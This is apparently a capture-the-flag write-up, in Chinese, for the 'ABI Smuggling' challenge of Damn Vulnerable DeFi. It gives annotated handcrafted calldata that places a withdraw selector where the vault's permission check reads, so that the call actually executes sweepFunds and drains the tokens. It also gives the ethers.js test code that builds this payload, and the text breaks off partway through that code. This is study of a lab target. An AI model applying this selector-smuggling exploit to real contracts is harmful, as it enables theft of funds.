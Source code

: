 

最终生成，详细信息见注释：

```
0x1cff79cd // execute
000000000000000000000000e7f1725e7734ce288f8367e1bb143e90bb3f0512  // address(vault)

0000000000000000000000000000000000000000000000000000000000000064  // 32 + 32 + 32 + 4 =100 = 0x64（不算一开始的execute）
0000000000000000000000000000000000000000000000000000000000000000  // random 0 paading (fixed 32 b)
d9caed12 // withdraw
0000000000000000000000000000000000000000000000000000000000000044  // calldata size (4 + 32 + 32 = 68 = 0x44)
85fb709d // sweep
0000000000000000000000003c44cdddb6a900fa2b585dd299e03d12fa4293bc // recovery.address
0000000000000000000000005fbdb2315678afecb367f032d93f642f64180aa3 // token.address
000000000000000000000000000000000000000000000000 // 补全0
```

具体生成过程见`test/abi-smuggling/abi-smuggling.challenge.js`

```javascript
    it('Execution', async function () {
        /** CODE YOUR SOLUTION HERE */
        console.log("sweeping : %s ",ethers.utils.id("sweepFunds(address,address)"));
        console.log("withdraw : %s ",ethers.utils.id("withdraw(address,address,uint256)"));
        
        const executeSig = await vault.interface.getSighash(
            await vault.interface.getFunction("execute")
        );
        console.log(executeSig);

        const vaultAddr = await ethers.utils.hexZeroPad(
            vault.address,
            32
        );
        console.log(vaultAddr);

        const randoms = await ethers.utils.hexZeroPad(
            "0x0",
            32
        );
        console.log(randoms);

        // length 32*2 + 4 = 68 = 0x44
        const actionDataContent = await vault.interface.encodeFunctionData(
            "sweepFunds(address,address)",
            [recovery.address,
            token.address]
        );
        console.log(actionDataContent);

        const actionDataLength = await ethers.utils.hexZeroPad(
            "0x44",
            32
        );

        const withdraw = await vault.interface.getSighash(
            await vault.interface.getFunction("withdraw")
        );

        // 32 bytes + 32 bytes + 32bytes + 4 bytes = 100 bytes = 0x64
        const  actionDataStore = await ethers.utils.hexZeroPad(
            "0x64",
            32
```
